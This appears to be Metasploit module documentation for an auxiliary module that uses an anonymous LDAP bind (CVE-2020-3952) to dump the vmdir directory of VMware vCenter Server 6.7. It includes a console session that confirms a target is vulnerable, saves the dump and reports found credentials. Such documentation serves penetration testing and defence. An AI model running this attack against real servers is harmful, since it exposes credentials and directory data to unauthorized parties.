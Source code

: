 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump data from
the vmdir service in VMware vCenter Server version 6.7 prior to the
6.7U3f update, only if upgraded from a previous release line, such as
6.0 or 6.5.
If the bind username and password are provided (BIND_DN and LDAPPassword
options), these credentials will be used instead of attempting an
anonymous bind.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf auxiliary(gather/vmware_vcenter_vmdir_ldap) > show options

Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   BASE_DN                   no        LDAP base DN if you already have it
   SSL      true             no        Enable SSL on the LDAP connection


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LDAPDomain                     no        The domain to authenticate to
   LDAPPassword                   no        The password to authenticate with
   LDAPUsername                   no        The username to authenticate with
   RHOSTS                         no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                            metasploit.html
   RPORT         636              no        The target port


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data



View the full module info with the info, or info -d command.
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > run
[*] Running module against [redacted]
not verifying SSL hostname of LDAPS server '[redacted]:636'

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002613_default_[redacted]_VMwarevCenterS_939568.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) >
```
